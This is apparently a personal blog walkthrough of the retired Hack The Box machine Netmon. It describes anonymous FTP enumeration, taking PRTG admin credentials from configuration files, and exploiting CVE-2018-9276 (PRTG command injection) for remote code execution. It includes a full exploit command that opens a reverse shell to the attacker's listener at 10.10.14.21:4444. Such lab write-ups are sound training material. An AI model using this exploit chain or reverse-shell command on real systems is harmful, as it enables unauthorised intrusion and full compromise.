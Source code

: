 ```yaml
---
title: "Netmon HTB Walkthrough: Exploiting Anonymous FTP and PRTG Network Monitor RCE for Full System Access"  
description: "Comprehensive walkthrough of the retired Hack The Box machine Netmon, detailing anonymous FTP enumeration, credential extraction from PRTG configuration files, exploiting CVE-2018-9276 for remote code execution, and achieving reverse shell with system privileges."  
pubDate: 'Jun 27 2025'  
heroImage: "../../assets/Hack-The-Box-logo.png"  
---
```


## Overview

Netmon is an easy Windows retired machine on Hack The Box running an outdated version of PRTG Network Monitor. This walkthrough covers how I used anonymous FTP access to gather information and extract credentials from configuration files, leveraged these credentials to exploit a known remote code execution vulnerability (CVE-2018-9276), and ultimately gained a reverse shell on the target to capture both user and root flags.

## Enumeration

Running an Nmap scan with default scripts (`-sC`) and version detection (`-sV`) reveals multiple open services, including FTP with **anonymous access**, and an HTTP service running **PRTG Network Monitor version 18.1.37.13946**. Windows RPC, NetBIOS, and SMB ports are also open, indicating a Windows-based host — likely **Windows Server 2008 R2–2012**.

![Pasted-image-20250627142134.png](../../assets/Pasted-image-20250627142134.png)  

### Exploring the PRTG Network Monitor Web Interface

Navigating to [http://10.10.10.152](http://10.10.10.152) shows the login page for PRTG Network Monitor.

The web server hosts PRTG Network Monitor, but without credentials, further access is blocked. Time to revisit FTP for additional clues.

![Pasted-image-20250627142618.png](../../assets/Pasted-image-20250627142618.png)  

## Foothold

### Anonymous FTP Access

Since FTP allows anonymous access, we reconnect to explore the file system in more depth and search for configuration files or credentials related to PRTG.

![Pasted-image-20250627142943.png](../../assets/Pasted-image-20250627142943.png)  

After logging into the FTP server anonymously, I began enumerating the directory structure. I first listed the contents of the root directory and identified several standard Windows folders such as `inetpub`, `Program Files`, `Users`, and `Windows`.

I navigated into the `Users` directory and found two subdirectories: `Administrator` and `Public`. Attempting to access `Administrator` returned an "Access is denied" error, but access to `Public` was successful.

Inside `Public`, I browsed to the `Desktop` folder, which contained a file named `user.txt` along with a couple of `.lnk` shortcuts related to PRTG. I downloaded the `user.txt` file to retrieve the user flag.

![Pasted-image-20250627143222.png](../../assets/Pasted-image-20250627143222.png)  

After retrieving the `user.txt` flag, I continued exploring the FTP server for more valuable files. I navigated into the `Paessler` directory and then into `PRTG Network Monitor`, where I found several subdirectories and configuration files.

Inside this directory, I successfully downloaded both the `PRTG Configuration.old.bak` and `PRTG Configuration.dat` files. These files typically contain stored credentials and other sensitive configuration data related to the PRTG Network Monitor.

![Pasted-image-20250627145157.png](../../assets/Pasted-image-20250627145157.png)  

After downloading the `PRTG Configuration.old.bak` file, I changed its extension to `.txt` in order to view its contents in a standard text editor. This revealed readable XML-style configuration data.

Within the file, I discovered a commented section containing the default login credentials for the PRTG web interface:

The username was noted as `prtgadmin` in a comment, and the password was shown as `PrTg@dmin2018` under the `<dbpassword>` tag.

![Pasted-image-20250627145112.png](../../assets/Pasted-image-20250627145112.png)  

I returned to the PRTG Network Monitor web interface and attempted to log in using the extracted credentials. However, the login failed, which likely indicates that the password has been changed from the default stored in the configuration file.

![Pasted-image-20250627145349.png](../../assets/Pasted-image-20250627145349.png)  


I then examined the current `PRTG Configuration.dat` file, hoping to find updated credentials. Inside, I located the username `prtgadmin`, but the password field was encrypted and stored as a hash or cipher text.

This suggests the password is no longer in plaintext and is protected, making it unusable without decryption or other exploitation methods.

![Pasted-image-20250627145547.png](../../assets/Pasted-image-20250627145547.png)  

Since the password in the current configuration file was encrypted or hashed rather than stored in plaintext, I opted to guess an updated version of the original password. Using `PrTg@dmin2019`, I was able to successfully log in to the PRTG Network Monitor web interface.

![Pasted-image-20250627151424.png](../../assets/Pasted-image-20250627151424.png)  

## Exploitation

## Exploitation
After confirming the PRTG version as 18.1.37.13946, I researched known vulnerabilities and identified **CVE-2018-9276**. This vulnerability affects PRTG Network Monitor versions prior to 18.2.39 and allows operating system command injection through the sensor or notification management features.

**Important:** This vulnerability requires authenticated access with administrative privileges to the PRTG web console. Once authenticated, an attacker can send specially crafted parameters to execute arbitrary commands on the server.

The vulnerability is rated High (CVSS 7.2) and is included in CISA's Known Exploited Vulnerabilities Catalog, highlighting its relevance in real-world attacks.

I decided to test this publicly available exploit to gain further access.

Exploit: https://github.com/A1vinSmith/CVE-2018-9276

Using the extracted credentials, I ran the **CVE-2018-9276** exploit against the PRTG Network Monitor instance on port 80 with the following command:

`sudo python3 exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.14.21 --lport 4444 --user prtgadmin --password PrTg@dmin2019`

The exploit successfully staged a payload and obtained a session as the prtgadmin user. The payload was uploaded to C:\Users\Public\tester.txt and executed via the PRTG notification feature.

I set up a listener on my attack machine, and shortly after triggering the exploit, I received an incoming connection on 10.10.14.21:4444, indicating successful code execution and shell access.
![Pasted-image-20250627153743.png](../../assets/Pasted-image-20250627153743.png)  

After running the exploit and setting up a listener on my machine, I successfully received a reverse shell connection from the target. Upon connecting, I verified that I had access to the `C:\Windows\System32` directory, confirming a shell with significant system privileges as the `prtgadmin` user on the Windows machine.

![Pasted-image-20250627153828.png](../../assets/Pasted-image-20250627153828.png)  


After gaining shell access, I navigated to the `C:\Users\Administrator\Desktop` directory and displayed the contents of `root.txt` by running:

`type C:\Users\Administrator\Desktop\root.txt`

This revealed the root flag, confirming full system compromise and successful privilege escalation.

![Pasted-image-20250627154045.png](../../assets/Pasted-image-20250627154045.png)

This box demonstrates the importance of proper credential management and patching critical vulnerabilities. By exploiting anonymous FTP misconfigurations, I accessed sensitive PRTG configuration files containing login credentials. Using these credentials, I exploited a known RCE vulnerability to gain remote shell access. Finally, I escalated privileges to retrieve the root flag, completing the challenge.

Netmon highlights common attack vectors against outdated software and poorly secured services, making it a valuable exercise in real-world penetration testing.




